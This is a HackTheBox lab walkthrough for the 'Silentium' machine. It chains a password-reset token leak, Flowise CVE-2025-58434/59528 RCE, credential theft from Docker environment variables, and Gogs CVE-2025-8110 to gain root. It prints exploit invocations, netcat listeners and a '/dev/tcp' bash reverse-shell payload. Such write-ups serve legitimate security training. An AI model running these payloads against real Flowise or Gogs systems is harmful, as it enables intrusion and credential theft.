







`[WEB]` `[VHOST]` `[IDOR]` `[API-LEAK]` `[RCE]` `[DOCKER-ESCAPE]` `[PORT-FWD]` `[CVE-2025-59528]` `[CVE-2025-8110]`

# Silentium

**HackTheBox — by jhaxx**

---

## Scenario

### Objective / Scope

The target is `silentium.htb`, a Linux host presenting a corporate web front-end for an institutional capital and lending firm. The scope covers the web application layer accessible on port 80 (including virtual hosts), the SSH service on port 22, and all internally reachable services discoverable post-compromise. The goal is full system compromise — user and root flags.

---

## Recon

### Nmap

```bash
nmap -sC -sV -Pn -oA scans/nmap/silentium silentium.htb
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Silentium | Institutional Capital & Lending Solutions
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Two services: SSH and an nginx web server. The TTL of 63 confirms we are behind one hop (HTB VPN NAT), targeting a Linux host. We begin web enumeration.

### Web Enumeration — `http://silentium.htb`

```bash
dirsearch -u http://silentium.htb -x 403,404
```

```
[15:03:56] 301 -  178B  - /assets  ->  http://silentium.htb/assets/
[15:03:56] 403 -  564B  - /assets/
```

Directory enumeration returns nothing actionable. Manual inspection of the main site reveals three candidate usernames embedded in the page content: **`elena`**, **`marcus`**, and **`ben`**. No directly exploitable functionality is exposed on the primary vhost.


### VHost Fuzzing

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
     -u http://silentium.htb -H "Host: FUZZ.silentium.htb" \
     -fs <baseline_size>
```

We discover the vhost **`staging`**. We add it to `/etc/hosts` and navigate to `http://staging.silentium.htb`.

---

## Foothold

### Username Enumeration — Login Portal (`staging.silentium.htb`)

The staging portal presents a Flowise login page. Submitting invalid credentials for both candidate usernames returns distinct error responses — the response for `ben` differs from that of `marcus`, confirming `ben` as a valid account in the system. This differential error behaviour constitutes username enumeration.

- **`marcus`** → generic error (no account found)
- **`ben`** → distinct error (account exists)




### Password Reset — IDOR / Sensitive Data Exposure

We trigger the **Forgot Password** flow for the `ben` account with Burp Suite intercept active. Clicking **Send Reset Password Instructions** issues a POST request that, critically, returns a `201 Created` response with the full user record in the JSON body:

```bash
# Intercept: POST /api/v1/auth/forgot-password
# Body: { "email": "ben@silentium.htb" }
```

```json
HTTP/1.1 201 Created
Content-Type: application/json; charset=utf-8

{
    "user": {
        "id": "e26c9d6c-678c-4c10-9e36-01813e8fea73",
        "name": "admin",
        "email": "ben@silentium.htb",
        "credential": "$2a$05$6o1ngPjXiRj.EbTK33PhyuzNBn2CLo8.b0lyys3Uht9Bfuos2pWhG",
        "tempToken": "HF4JtQiC2UMHLbW3I5O7M1QEKrTeFujLTKbV7xQew0qG8nZL00pHgGlys3nTL1RS",
        "tokenExpiry": "2026-05-16T20:44:22.185Z",
        "status": "active",
        ...
    }
}
```

The server returns the user's bcrypt-hashed credential and a live `tempToken` — a short-lived password reset token that is valid for 15 minutes. This is a direct object reference vulnerability: the reset endpoint returns internal account data that should never be sent to the client.



We paste the `tempToken` into the password reset form to set `ben`'s password to `Password123#`.



### Authenticating as Ben — Flowise Admin

We sign in to `http://staging.silentium.htb` as `ben@silentium.htb : Password123#` and land inside the Flowise AI platform with admin privileges.



Navigating to **API Keys**, we retrieve the `DefaultKey`:

```
hWp_8jB76zi0VtKSr2d9TfGK1fm6NuNPg1uA-8FsUJc
```

The platform version is visible in the UI: **Flowise 3.0.5** — a version documented to be vulnerable to **CVE-2025-59528**.



---

## RCE — CVE-2025-58434 + CVE-2025-59528

**CVE chain:** Unauthenticated Account Takeover (CVE-2025-58434) chained with CustomMCP Server Remote Code Execution (CVE-2025-59528), affecting Flowise ≤ 3.0.5.

PoC: [AzureADTrent/CVE-2025-58434-59528](https://github.com/AzureADTrent/CVE-2025-58434-59528)

We set up a listener and fire the exploit, supplying our already-authenticated API key to bypass the ATO step:

```bash
# Terminal 1 — listener
nc -lvnp 4444

# Terminal 2 — exploit
python3 flowise_chain.py \
    -t http://staging.silentium.htb \
    --api-key hWp_8jB76zi0VtKSr2d9TfGK1fm6NuNPg1uA-8FsUJc \
    --lhost 10.10.17.92 \
    --lport 4444
```

```
[*] Version:     3.0.5
[+] Version 3.0.5 is vulnerable.
[*] Step 4: CVE-2025-59528 — Triggering CustomMCP RCE...
[+] TIMEOUT — reverse shell may have connected
```

```bash
# Listener catches the shell
listening on [any] 4444 ...
connect to [10.10.17.92] from (UNKNOWN) [10.129.46.227] 45481
/bin/sh: can't access tty; job control turned off
/ # whoami
root
```

We land as `root` — but the `/ #` prompt, lack of a proper TTY, and the `.dockerenv` indicator confirm we are inside a **Docker container**, not the underlying host.

---

## Docker Container Escape — Credential Harvesting via Environment

The container is not running in privileged mode (confirmed by attempting `ip link add dummy0 type dummy`, which returns `Operation not permitted`). Direct kernel exploits requiring `CAP_SYS_ADMIN` are not available.

We shift focus to environment variable leakage — a common exposure vector in containerised deployments:

```bash
/ # env | grep -iE 'pass|key|secret|token'
FLOWISE_PASSWORD=F1l3_d0ck3r
SMTP_PASSWORD=r04D!!_R4ge
JWT_AUTH_TOKEN_SECRET=AABBCCDDAABBCCDDAABBCCDDAABBCCDDAABBCCDD
JWT_REFRESH_TOKEN_SECRET=AABBCCDDAABBCCDDAABBCCDDAABBCCDDAABBCCDD
```

Two plaintext passwords are exposed via the container's inherited environment. We test both against the SSH service for the `ben` user, as `ben@silentium.htb` maps to the email account we controlled on the portal:

```bash
ssh ben@silentium.htb
# Password: r04D!!_R4ge  ← SMTP_PASSWORD — success
```

```
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-107-generic x86_64)
ben@silentium:~$ whoami
ben
```

---

## Privilege Escalation — CVE-2025-8110 (Gogs RCE as root)

### Discovery

```bash
# No sudo rights
sudo -l
Sorry, user ben may not run sudo on silentium.
```

Running `privy.sh` against the host surfaces no-owner files in `/opt/gogs/`:

```bash
find / -xdev \( -nouser -o -nogroup \) -print 2>/dev/null | head -30
# /opt/gogs/log
# /opt/gogs/custom
# /opt/gogs/data
```

`ps aux` confirms a Gogs process running as `root`:

```bash
ps aux | grep gogs
root  1522  0.0  1.7 1812276 69344 ?  Ssl  15:09  0:03 /opt/gogs/gogs/gogs web
```

Gogs is bound to `localhost:3001`. We expose it over SSH local port forwarding:

```bash
ssh -L 8080:localhost:3001 ben@silentium.htb
```

Visiting `http://localhost:8080` gives us the Gogs web interface. We register a new user account: **`pwuser : Password123!`**, then navigate to **Settings → Applications → Generate New Token** to obtain an API token for the exploit.




### Exploitation

**CVE-2025-8110:** Authenticated path traversal allowing arbitrary file-write outside the repository root, leading to code execution. Since Gogs runs as `root`, any file written is owned by root.

PoC: [zAbuQasem/gogs-CVE-2025-8110](https://github.com/zAbuQasem/gogs-CVE-2025-8110)

The upstream PoC includes a `register()` function that fails when open registration is disabled on the target (it POSTs to `/user/sign_up` and checks for redirect, throwing `ValueError` before login is attempted). Since we pre-registered `pwuser` manually, we remove the `register()` call from the script and hardcode our credentials:

```python
# exploit.py — amended
username = "pwuser"
password = "Password123!"
command = f"bash -c 'bash -i >& /dev/tcp/{args.host}/{args.port} 0>&1' #"

# register() call removed — registration is disabled on target
login(session, args.url, username, password)
token = get_application_token(session, args.url)
repo_name = create_malicious_repo(session, args.url, token)
```

```bash
# Terminal 1 — listener
nc -lvnp 4444

# Terminal 2 — exploit (targets the forwarded port)
python3 exploit.py -u http://localhost:8080 -lh 10.10.17.92 -lp 4444
```

```bash
listening on [any] 4444 ...
connect to [10.10.17.92] from (UNKNOWN) [10.129.48.7] 58888
root@silentium:/opt/gogs/gogs/data/tmp/local-repo/1# whoami
root
```

We are `root` on the host. The root flag is at `/root/root.txt`.

---

## Vulnerability Summary

| # | Vulnerability | CVSS | Impact |
|---|---|---|---|
| 1 | SSH — Password Auth Enabled | High | Brute-force / cred-stuffing surface |
| 2 | Password Reset — IDOR / Sensitive Data Exposure | Critical | Full token + hash leak in response body |
| 3 | Flowise — CVE-2025-58434 + CVE-2025-59528 | Critical | Unauthenticated ATO → RCE |
| 4 | Docker — Plaintext Credentials in Environment | High | Host credential disclosure |
| 5 | Gogs — CVE-2025-8110 | Critical | Authenticated arbitrary write → RCE as root |
